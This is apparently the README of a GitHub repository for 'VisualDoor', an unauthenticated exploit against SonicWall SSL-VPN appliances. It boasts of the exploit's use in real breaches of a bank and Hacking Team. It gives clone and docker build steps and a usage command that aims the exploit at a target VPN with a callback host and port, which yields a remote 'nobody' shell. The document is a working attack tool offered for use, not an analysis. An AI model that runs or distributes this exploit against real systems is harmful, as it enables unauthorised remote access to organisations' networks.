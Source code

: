 # VisualDoor
SonicWall SSL-VPN Exploit, as used by Phineas Fisher to hack Cayman Trust Bank and Hacking Team.

Unauthenticated, gives you a "nobody" shell. Getting root is an exercise for the user.

For details see: https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit/

# Docker
```
git clone https://github.com/superzerosec/VisualDoor.git
cd VisualDoor
docker build -t myvisualdoor .
```

# Usage
```
docker run --rm -it -p 443:443 myvisualdoor python /app/visualdoor.py https://some-vpn.lol:8090 hacke.rs 1337
```
